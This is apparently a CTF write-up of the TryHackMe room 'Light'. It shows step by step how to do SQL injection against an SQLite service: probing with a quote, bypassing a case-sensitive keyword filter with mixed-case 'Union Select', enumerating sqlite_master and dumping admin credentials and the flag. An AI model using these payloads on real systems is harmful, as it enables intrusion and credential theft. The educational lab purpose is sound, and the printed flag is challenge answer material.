 ```yaml
---
title: "TryHackMe: Light"
author: Vitorx
categories: [TryHackMe]
tags: [sql, sql injection, sqlite]
render_with_liquid: false
img_path: /images/tryhackme_light/
image:
  path: /images/tryhackme_light/light-tryhackme.webp
---
```


**Light** is a `TryHackMe` challenge focused on `SQL Injection` in an SQLite database. The objective is to exploit a vulnerable application to obtain administrator credentials and the final flag. The challenge teaches essential SQL Injection exploitation techniques, highlighting the importance of proper security measures such as input validation and parameterized queries. You can access it by clicking [here](https://tryhackme.com/r/room/lightroom).

## Discovering SQL Injection

According to the room instructions, when connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.184.219 1337
```
The system returns a message indicating that we are interacting with a database called Light:

```console
Welcome to the Light database!
Please enter your username:
```

The room also suggests using the username `smokey` to start the session. Upon entering it, we receive the corresponding password:

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since we are dealing with a database-driven application, the first exploitation attempt is to test for `SQL Injection` vulnerability. To do this, we use a simple `'` (single quote) as input. If the system does not properly handle inputs, this attempt may trigger a revealing error:

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

The error indicates that the application might be vulnerable, as the input broke the original SQL query.

## Attempting UNION SELECT Injection

To extract information from the database, we attempt a `UNION-based` SQL Injection to merge our query with another table.

```console
Please enter your username: ' UNION SELECT 1-- -
```

However, the system returns an unusual error, stating that certain characters and sequences like `/*`, `--`, and `%0b` are not allowed:

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
This means the application has a filtering mechanism to prevent common `SQL Injection` attacks.

## Bypassing Keyword Restrictions

Since we cannot comment out the query to prevent errors, we need to adapt the payload. As `SELECT 1 ''` is a valid query, we can modify our input as follows:

```console
Please enter your username: ' UNION SELECT 1 '
```
However, doing so results in another restriction:

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It appears that the keywords `UNION` and `SELECT` are blocked. But, by testing different capitalizations, we discover that the filter is case-sensitive:

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(

Please enter your username: SELECT
Ahh there is a word in there I don't like :(

Please enter your username: Union
Username not found.

Please enter your username: Select
Username not found.
```
This allows us to bypass the filter using alternate capitalization:

```console
Please enter your username: ' Union Select 1 '
```

With this, we successfully execute the injection!

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the Database Management System (DBMS)

Now that we have successfully performed a UNION-based injection, we can determine which database management system (DBMS) is being used. We try some common functions:

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
```

```console
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
```

When we try the function `sqlite_version()`, we finally get a valid response:

```console
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Extracting the Database Structure

Knowing that we are in an SQLite environment, we can list the tables and their respective structures by querying the internal `sqlite_master` table:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
```

The response reveals the database structure:

```console
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

Now we know that there are at least two relevant tables: usertable and admintable.

## Extracting Sensitive Data

Our goal is to obtain the administrator's credentials. We can do this by extracting the `username` and `password` fields from the `admintable`:

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: VHJ5SGFja01lQWRtaW46bWFtWnRBdU1scnNFeTVicDZxMTcsZmxhZzpUSU17U1FMaXQzX0luSjNjVGlvbl9pc19TaW1wbGVfbk99
```

## Conclusion

In this exploration, we used several techniques to perform an `SQL Injection` attack on an `SQLite database`:

✅ Identified the vulnerability by testing a simple input (''); \
✅ Bypassed keyword restrictions using alternate capitalization; \
✅ Confirmed the database was SQLite by executing version queries; \
✅ Extracted the database structure using sqlite_master; \
✅ Retrieved credentials and the flag via a UNION SELECT.

These methods demonstrate how SQL Injection remains a critical vulnerability and how an attacker can exploit this flaw to extract confidential information from insecure systems.

Always validate user inputs and use parameterized queries to prevent such exploitation! 🚀
